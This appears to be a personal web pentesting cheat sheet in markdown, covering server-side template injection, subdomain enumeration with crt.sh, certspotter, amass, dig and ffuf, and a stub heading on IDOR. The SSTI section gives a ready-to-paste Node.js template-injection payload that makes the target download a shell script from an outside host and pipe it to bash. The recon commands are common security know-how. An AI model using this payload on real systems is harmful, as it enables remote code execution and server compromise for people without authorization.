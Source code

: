- [Burpsuite](#burpsuite)
  - [Repeater](#repeater)
  - [Intruder](#intruder)
    - [Macros](#macros)
  - [Decoder, Comparer, Sequencer](#decoder-comparer-sequencer)
  - [Wordpres](#wordpres)
- [API](#api)
  - [Git Enumeration](#git-enumeration)
  - [PHP psy shell](#php-psy-shell)

## Server Side Template Injection
{{7x7}}
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.9.1.255:5556/s.sh | bash')}()}
[SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

## DNS - Subdmain
- search certificates: 
  - https://transparencyreport.google.com/https/overview
  - https://crt.sh/
    - $ curl -s "https://crt.sh/?q=%.<domain>&output=json" | jq '.[].name_value' | sed 's/\"//g' | sed 's/\*\.//g' | sort -u > hosts-crtsh.txt
    - curl -s https://certspotter.com/api/v0/certs\?domain\=$1 | jq '.[].dns_names[]' | sed 's/\"//g' | sed 's/\*\.//g' | sort -u > hosts-certspotter.txt
- Google search engine: site:*.domain.com
- dnsrecon
- dnsdumpster => online
- wfuzz
- ffuf
  - -u "$target" -H "Host: FUZZ.$target"

### Wildcards 
- A lot of false positive
- need to be filtered
- dig domain.de A,CNAME {test321123,testingforwildcard,plsdontgimmearesult}.<domain> +short | wc -l ===> > 1, a lot of false positive from brute force

- OWAPS *Amass*: amass -src -ip -active -brute -d
  - https://github.com/OWASP/Amass/blob/master/doc/tutorial.md
  - amass -passive -d domain.de -src
  - $ amass enum -active -d owasp.org -brute -w /root/dns_lists/deepmagic.com-top50kprefixes.txt -src -ip -dir amass4owasp -config /root/amass/config.ini -o amass_results_owasp.txt
  - https://medium.com/@noobhax/my-recon-process-dns-enumeration-d0e288f81a8a

- Create wordlist (from commands above)
  - sed 's/$/.<domain>/' subdomains-top1mil-20000.txt > hosts-wordlist.txt
  
## IDOR
Insecure Direct Object Request
